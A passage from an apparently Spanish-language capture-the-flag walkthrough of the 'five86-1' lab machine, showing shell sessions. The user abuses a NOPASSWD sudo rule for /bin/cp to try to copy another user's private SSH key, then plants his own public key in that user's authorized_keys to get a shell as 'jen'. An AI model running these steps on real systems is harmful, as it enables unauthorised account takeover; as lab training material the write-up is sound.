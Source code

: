 ```bash
douglas@five86-1:~$ sudo -l
Matching Defaults entries for douglas on five86-1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User douglas may run the following commands on five86-1:
    (jen) NOPASSWD: /bin/cp
douglas@five86-1:~$ 


```

No tiene `id_rsa`

```bash
douglas@five86-1:~$ sudo -u jen cp /home/jen/.ssh/id_rsa /tmp/id_rsa
cp: cannot stat '/home/jen/.ssh/id_rsa': No such file or directory
douglas@five86-1:~$ 
```

Como `douglas` tiene una `id_rsa` podemos copear la `id_rsa.pub` que es la clave publica al directorio de `jen` como `authorized_keys`

```bash
douglas@five86-1:~$ cd .ssh/
douglas@five86-1:~/.ssh$ cp id_rsa.pub /tmp/
douglas@five86-1:~/.ssh$ sudo -u jen cp /tmp/id_rsa.pub /home/jen/.ssh/authorized_keys
douglas@five86-1:~/.ssh$ 
```

## Shell como jen

```bash
douglas@five86-1:~/.ssh$ ssh jen@localhost
The authenticity of host 'localhost (::1)' can't be established.
ECDSA key fingerprint is SHA256:aE9ZqWXrvGgzgM21BjQ23GmxQVBeD5CZw0nUq8P8RyM.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Linux five86-1 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
jen@five86-1:~$ whoami
jen
jen@five86-1:~$ 
```

Nos quedan esos usuarios asta ahora tenemos acceso como `douglas` y `jen`
